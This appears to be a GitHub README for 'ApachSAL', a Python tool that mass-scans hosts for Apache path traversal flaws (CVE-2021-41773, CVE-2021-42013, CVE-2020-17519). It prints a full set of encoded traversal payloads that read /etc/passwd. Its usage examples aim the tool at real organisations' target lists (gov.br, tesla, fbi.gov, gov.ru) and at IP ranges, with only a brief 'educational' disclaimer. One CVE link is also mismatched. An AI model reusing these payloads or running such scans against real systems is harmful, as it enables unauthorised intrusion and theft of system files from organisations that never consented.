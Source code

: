 <p align="center">
<a href="https://github.com/imhunterand/ApachSAL/">
  <img src="assets/prints/banner.png" width="700" alt="Banner Apache Path Traversal" />
</a>
</p>
<h1 align="center">
  Apache Path Traversal 
</h1>
  
<img alt="GPL License" src="https://img.shields.io/github/license/imhunterand/ApachSAL?color=blue">
  
<img alt="GitHub code size in bytes" src="https://img.shields.io/github/languages/code-size/imhunterand/ApachSAL">

<img alt="Python 3.8" src="https://img.shields.io/badge/python-3.8-yellow.svg">
<img alt="Supported_OS Linux orange" src="https://img.shields.io/badge/Supported_OS-Linux-orange.svg">
<img alt="Supported OS Mac" src="https://img.shields.io/badge/Supported_OS-Mac-orange.svg">
</p> 

### Path traversal (software bug) 
A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

## Disclaimer 
```
This or previous program is for Educational purpose ONLY. Do not use it without permission. 
The usual disclaimer applies, especially the fact that me (Imhunterand) is not liable for any 
damages caused by direct or indirect use of the information or functionality provided by these 
programs. The author or any Internet provider bears NO responsibility for content or misuse 
of these programs or any derivatives thereof. By using these programs you accept the fact 
that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these 
programs is not Imhunterand responsibility.
```


### This script checks for vulnerabilities
- [CVE-2021-41773  ](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-41773)
- [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)
- [CVE-2020-17519](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)


## Commands
```bash
python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug
```
## Screenshots
![Screenshot](/assets/prints/print01.png)
![Screenshot](/assets/prints/print02.png)


## Flow to generate targets
![Screenshot](/assets/prints/print03.jpg)

## Help
```bash
python main.py --help
```
 
```properties

                                   .,,
                                  (=\/\
                                   \=\/\
                                    \=\/\
                                     `=\/
                                        \
            TRAVERSAL [ APACHE ]
 ▄▄▄       ██▓███   ▄▄▄       ▄████▄   ██░ ██   ██████  ▄▄▄       ██▓
▒████▄    ▓██░  ██▒▒████▄    ▒██▀ ▀█  ▓██░ ██▒▒██    ▒ ▒████▄    ▓██▒
▒██  ▀█▄  ▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▒██▀▀██░░ ▓██▄   ▒██  ▀█▄  ▒██░
░██▄▄▄▄██ ▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒░▓█ ░██   ▒   ██▒░██▄▄▄▄██ ▒██░
 ▓█   ▓██▒▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░░▓█▒░██▓▒██████▒▒ ▓█   ▓██▒░██████▒
 ▒▒   ▓▒█░▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░ ▒ ░░▒░▒▒ ▒▓▒ ▒ ░ ▒▒   ▓▒█░░ ▒░▓  ░
  ▒   ▒▒ ░░▒ ░       ▒   ▒▒ ░  ░  ▒    ▒ ░▒░ ░░ ░▒  ░ ░  ▒   ▒▒ ░░ ░ ▒  ░
  ░   ▒   ░░         ░   ▒   ░         ░  ░░ ░░  ░  ░    ░   ▒     ░ ░
      ░  ░               ░  ░░ ░       ░  ░  ░      ░        ░  ░    ░  ░
                             ░


                      By: imhunterand /labsbots.com/
                      https://twitter.com/imhunterand
                      https://github.com/imhunterand/                                                                     
         
usage: tool [-h] [--file <ips.txt>] [--range <ip-start>,<ip-end>]
            [--thread <20>] [--ssl] [--timeout <5>] [--debug]

[!] Check: CVE-2021-41773, CVE-2021-42013, CVE-2020-17519
[!] File exploits: /assets/exploits.json
[!] Output: output/vuln.txt

python main.py --file gov.br.txt  --thread 15
python main.py --file tesla.txt  --ssl
python main.py --range 192.168.15.1,192.168.15.100 --thread 30 
python main.py --file fbi.gov.txt  --thread 15 --timeout 3 
python main.py --file gov.ru.txt  --debug

optional arguments:
  -h, --help            show this help message and exit
  --file <ips.txt>      Input your target host lists
  --range <ip-start>,<ip-end>
                        Set range IP Eg.: 192.168.15.1,192.168.15.100
  --thread <20>, -t <20>
                        Eg. 20
  --ssl                 Enable request with SSL
  --timeout <5>         Set connection timeout
  --debug, -d           Enable debug mode

```

## Tree
```properties
.
├── assets
│   ├── autor.json
│   ├── config.json
│   ├── exploits.json
│   └── prints
│       ├── banner.png
│       ├── print01.png
│       └── print02.png
├── LICENSE
├── main.py
├── modules
│   ├── banner_mrclw.py
│   ├── color_mrclw.py
│   ├── debug_mrclw.py
│   ├── file_mrclw.py
│   ├── __init__.py
│   ├── request_mrclw.py
│   ├── shodan_mrclw.py
│   └── thread_mrclw.py
├── output
└── README.md
```

## File exploit
> assets/exploits.json 
```json
{
    "CVE-2021-41773": "/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd",
    "CVE-2021-42013-0": "/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/etc/passwd",
    "CVE-2021-42013-1": "/cgi-bin/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-3": "/cgi-bin/.%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2021-42013-4":"/cgi-bin/%25%25%25%2e/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/etc/passwd",
    "CVE-2020-17519-0":"/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd",
    "CVE-2020-17519-1":"/cgi-bin/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
}
```



### Ref.

- https://owasp.org/www-community/attacks/Path_Traversal
- https://appcheck-ng.com/apache-path-traversal-vulnerability-cve-2021-41773/
- https://www.exploit-db.com/exploits/50383
- https://www.exploit-db.com/exploits/50406
- https://www.exploit-db.com/exploits/49398
- https://owasp.org/www-community/attacks/Path_Traversal
